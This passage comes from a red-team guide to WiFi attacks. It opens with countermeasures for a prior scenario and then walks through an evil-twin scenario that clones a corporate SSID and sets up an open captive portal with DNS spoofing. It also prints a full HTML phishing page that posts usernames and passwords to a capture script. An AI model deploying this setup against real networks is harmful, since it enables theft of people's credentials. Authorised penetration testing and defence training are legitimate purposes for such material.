 *Immediate countermeasures:*
- MAC filtering activation
- WiFi channel change
- 802.11w (PMF) protection activation
- Attack origin investigation

### Scenario 3: Malicious Access Point (Evil Twin)

**Context**

Creating a rogue access point to capture employee credentials.

**Detailed Red Team Procedure**

*Phase 1: Legitimate network cloning*
```bash
WiFi Scanner → Identify "Corp-WiFi"
- SSID: Corp-WiFi
- Security: WPA2-PSK
- Channel: 6
- Signal: -45 dBm
```

*Phase 2: Evil Twin configuration*
```bash
WiFi → Evil Portal
- SSID: Corp-WiFi (identical)
- Security: Open (to facilitate connection)
- Channel: 11 (different to avoid interference)
- Captive Portal: Enabled
- DNS Spoofing: Enabled
```

*Phase 3: Capture page creation*
```html
<!-- Credential capture page -->
<!DOCTYPE html>
<html>
<head>
    <title>Corp-WiFi - Authentication</title>
    <style>
        body { font-family: Arial; background: #f0f0f0; }
        .login-box { 
            width: 300px; margin: 100px auto; 
            background: white; padding: 30px;
            border-radius: 10px; box-shadow: 0 0 10px #ccc;
        }
        input { width: 100%; padding: 10px; margin: 10px 0; }
        button { background: #007acc; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Corp-WiFi Connection</h2>
        <form action="/capture.php" method="post">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect</button>
        </form>
        <p><small>Security system updated. Please reconnect.</small></p>
    </div>
</body>
</html>
```
